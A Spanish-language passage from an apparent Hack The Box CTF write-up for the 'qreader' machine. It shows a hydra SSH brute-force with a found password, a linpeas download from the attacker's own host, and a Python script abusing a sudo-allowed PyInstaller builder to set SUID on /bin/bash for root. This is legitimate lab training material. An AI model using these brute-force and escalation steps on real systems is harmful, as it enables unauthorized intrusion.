

Y teniendo el archivo de usuarios, vamos ha usar hydra, para realizar un ataque de fuerza bruta y descubrir cual es el usuario. Comando:

```
hydra -L users.txt -p denjanjade122566 ssh://qreader.htb:22 -V
```

El usuario es **tkeller**. Aquí esta el reporte de **hydra**.



# Mantenimiento

Ahora sí, entramos en la máquina por el puerto **`22(ssh)`**: `ssh ssh tkeller@10.10.11.206`

Si hacemos un `whoami` veremos que somo el usuario **tkeller**, y si hacemos un `id` nos reporta lo siguiente: `uid=1001(tkeller) gid=1001(tkeller) groups=1001(tkeller),1002(shared)`. Por último, `ls && cat user.txt` y obtendremos nuestra bandera: 17c98****************************

Si hacemos un `sudo -l`, podremos ver que este `path`: `/usr/local/sbin/build-installer.sh`, se puede ejecutar sudo sin necesidad de ser root (`(ALL : ALL) NOPASSWD`). Lo tomaremos en cuenta por sí el `linpeas` no nos reporta nada importante. 

Antes de ejecutar el `linpeas` vamos ha probar ha modificar nuestro `gid` y `uid` con `/sbin/caps`. Comando:

```
/sbin/capsh --gid=0 --uid=0 -- | Output: Failed to set gid=0: Operation not permitted

```

Como no nos deja, vamos ha usar el `linpeas`. Nos pasamos de una máquina a otra el linpeas con `python3 -m http.server 80` y `wget http://10.10.14.108:80/linpeas_base.sh`. Luego `chmod +x linpeas_base.sh` y por último lo ejecutamos: `./linpeas_base.sh`



El `linpeas` no me ha reportado nada de valor, así que vamos, probaremos con el `path` reportado por el `sudo -l` (`/usr/local/sbin/build-installer.sh`) Por lo que creo que es el archivo, es, un builder de python, asi que vamos ha usar este simple script:

```
import os
import sys

os.system('chmod 777 /bin/bash')
os.system('chmod u+s /bin/bash')
```

```
sudo /usr/local/sbin/build-installer.sh make exploit.py
```

Output:

```
384 INFO: PyInstaller: 5.6.2
384 INFO: Python: 3.10.6
387 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
388 INFO: wrote /tmp/qreader.spec
392 INFO: UPX is not available.
script '/home/tkeller/exploit.py' not found
```

Ahora vamos a copiarnos en `/home/tkeller/` el archivo temporal que se ha creado: `/tmp/qreader.spec`. Y ejecutamos el siguiente comando: `sudo /usr/local/sbin/build-installer.sh build prueba.spec` siendo el archivo `prueba.spec`, el *exploit*.

Output:

```
133 INFO: PyInstaller: 5.6.2
133 INFO: Python: 3.10.6
136 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
141 INFO: UPX is not available.
```

Si ejecutamos estos comandos ya podremos tener la **flag root** .

```
bin/bash -p
bash-5.1# id
uid=1001(tkeller) gid=1001(tkeller) euid=0(root) groups=1001(tkeller),1002(shared)
bash-5.1# cat /root/root.txt
99009****************************
```



Muchas gracias si has llegado has aquí.
